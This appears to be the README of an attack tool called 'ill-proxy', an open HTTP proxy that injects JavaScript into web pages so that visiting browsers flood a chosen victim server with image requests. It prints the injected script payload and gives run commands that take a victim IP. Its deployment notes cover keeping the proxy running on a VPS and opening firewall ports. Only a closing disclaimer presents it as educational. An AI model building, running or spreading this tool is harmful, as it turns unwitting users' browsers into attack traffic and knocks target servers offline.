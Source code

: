 # 🧠 Reflection DDoS via Open HTTP Proxy

**ill-proxy** is a Python-based open HTTP proxy that injects JavaScript into HTML responses. The injected script forces connected browsers to generate multiple outbound requests to a target server, simulating a reflection-based DDoS attack where unsuspecting clients become amplifiers.


---

## 🔧 Features

- Open HTTP proxy on port 8080
- Injects JavaScript payload into HTML responses
- Payload creates multiple image requests to a target IP
- Victim IP can be passed via command line
- Optional request logging to a specified file
- Lightweight — no dependencies beyond the Python standard library
- Ideal for research, educational labs, red team simulations, or pentesting your own systems


---

## ⚙️ How It Works

1. Clients connect through the proxy.
2. The proxy forwards HTTP traffic.
3. If the response is HTML (`Content-Type: text/html`), it injects a `<script>` that loads 100 images from the victim server.
4. Each connected client unknowingly reflects traffic to the target.


---

### 💥 Example Payload
```
<script>
  for (let i = 0; i < 100; i++) {
    let img = new Image();
    img.src = "http://198.51.100.77/img" + i + ".jpg";
  }
</script>
```
Replace `198.51.100.77` with your controlled test server IP.


---

## 🚀 Setup

1. Clone the repo:
```
git clone https://github.com/ill-deed/ill-proxy.git cd ill-proxy
```
2. Run the proxy:
```
python3 ill-proxy.py
```
3. Optional: specify a target victim IP and log file:
```
python3 ill-proxy.py http://1.2.3.4 attack.log
```
4. Configure a browser to use your VPS as an HTTP proxy (port 8080).

5. Visit any HTTP website (not HTTPS) to trigger injection.


---

## 📓 Deployment Notes

- Use `tmux`, `screen`, `nohup`, or a `systemd` service to keep the proxy running in the background.
- Make sure port 8080 is open in both UFW and your cloud provider’s firewall panel.
- Logging is optional and only occurs if a file path is passed as the second argument.

---

## ⚠️ Disclaimer

This tool is provided strictly for **educational, testing, and research purposes**. Do **not** use it on unauthorized systems or networks. Misuse of this tool may violate laws and ethical guidelines. You are fully responsible for your actions.
